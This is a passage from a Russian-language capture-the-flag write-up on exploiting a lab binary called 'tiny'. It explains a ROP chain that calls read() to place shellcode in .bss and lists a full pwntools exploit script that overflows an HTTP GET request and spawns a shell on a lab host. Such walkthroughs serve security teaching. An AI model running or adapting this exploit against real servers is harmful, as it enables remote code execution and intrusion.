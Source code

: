 Пункты 1–5 задают два аргумента для функции `read` — они ложатся в регистры RDI и RSI соответственно. Обрати внимание: мы не задаем явно количество байт для чтения (третий аргумент — регистр RDX), потому что работа с RDX — это боль при построении ропчейнов. Вместо этого полагаемся на удачу: в ходе выполнения RDX обычно хранит достаточно большие значения, чтобы нам хватило на запись шелл-кода.

В пункте 6 вызываем саму функцию `read` (через обращение к таблице PLT), которая запишет шелл-код в секцию `.bss`. Финальный штрих — 7-й пункт — передаст управление шелл-коду: это произойдет после достижения инструкции `ret` в функции `read@plt`.

Необходимые звенья ROP-цепочки можно найти вручную (как мы [делали](https://snovvcrash.github.io/2019/11/23/bitterman.html#rop-цепочки) это в прошлой части), а можно возложить все заботы на плечи pwntools — тогда конечный сплоит получится весьма миниатюрным.

```python
#!/usr/bin/env python3
# -*- coding: utf-8 -*-

# Использование: python3 tiny-exploit.py [DEBUG]

from pwn import *
from urllib.parse import quote as url_encode

context.arch      = 'amd64'
context.os        = 'linux'
context.endian    = 'little'
context.word_size = 64

elf = ELF('./tiny', checksec=False)
bss = elf.bss()  # elf.get_section_by_name('.bss')['sh_addr'] (address of section header .bss)

rop = ROP(elf)
rop.read(4, bss)
rop.raw(bss)
log.info(f'ROP:\n{rop.dump()}')

r = remote('10.10.10.89', 1111)

raw_input('[?] Send payload?')
r.sendline(f'GET /{url_encode(b"A"*568 + bytes(rop))}')
r.sendline()
r.recvuntil('File not found')

raw_input('[?] Send shellcode?')
r.sendline(asm(shellcraft.dupsh(4)))  # asm(shellcraft.amd64.linux.dupsh(4), arch='amd64'), 70 bytes

r.interactive()
```

Пройдемся по самым интересным моментам.

```python
bss = elf.bss()
rop = ROP(elf)
rop.read(4, bss)
rop.raw(bss)
```


[//]: # (2019-11-20)